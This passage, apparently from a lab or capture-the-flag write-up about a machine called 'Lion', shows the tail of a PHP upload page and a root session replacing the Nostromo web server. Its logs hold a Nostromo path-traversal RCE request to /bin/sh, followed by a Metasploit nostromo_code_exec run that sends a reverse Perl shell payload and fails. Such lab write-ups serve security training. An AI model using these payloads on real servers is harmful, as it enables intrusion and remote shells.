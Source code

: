 ```
            echo "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded.";
            // Process or store the uploaded file securely
            // Do not execute the file directly
        } else {
            echo "Sorry, there was an error uploading your file.";
        }
    }
}
?>

<!DOCTYPE html>
<html>
<body>
    <center><br />
        <img src="image.png" style="width:300px;height:300px;"><br /><br />
        <form action="index.php" method="post" enctype="multipart/form-data">
            Select file to upload:
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>
    </center>
</body>
</html>

root@lion:/var/www/html/upload#
```

- Nostromo RCE In Lion Machine.

```
root@lion:/var/nostromo/htdocs# ls
cgi-bin  image.png  index.html  nostromo.gif
root@lion:/var/nostromo/htdocs# ss -anlpt|grep 8080
LISTEN     0      128          *:8080                     *:*                   users:(("nhttpd",pid=958,fd=3))
root@lion:/var/nostromo/htdocs# export machineIP=10.10.76.94
root@lion:/var/nostromo/htdocs# kill -9 958
root@lion:/var/nostromo/htdocs# python3 -m http.server 8080 -b $machineIP
Serving HTTP on 10.10.76.94 port 8080 ...
10.14.39.200 - - [01/Jul/2023 12:38:53] code 501, message Unsupported method ('POST')
10.14.39.200 - - [01/Jul/2023 12:38:53] "POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0" 501 -
10.14.39.200 - - [01/Jul/2023 12:39:57] "GET / HTTP/1.1" 200 -
10.14.39.200 - - [01/Jul/2023 12:40:05] "GET / HTTP/1.1" 200 -
10.14.39.200 - - [01/Jul/2023 12:40:05] code 501, message Unsupported method ('POST')
10.14.39.200 - - [01/Jul/2023 12:40:05] "POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.1" 501 -
```

In My Machine.

```
msf6 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.14.39.200:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. ForceExploit is enabled, proceeding with exploitation.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/nostromo_code_exec) >
```
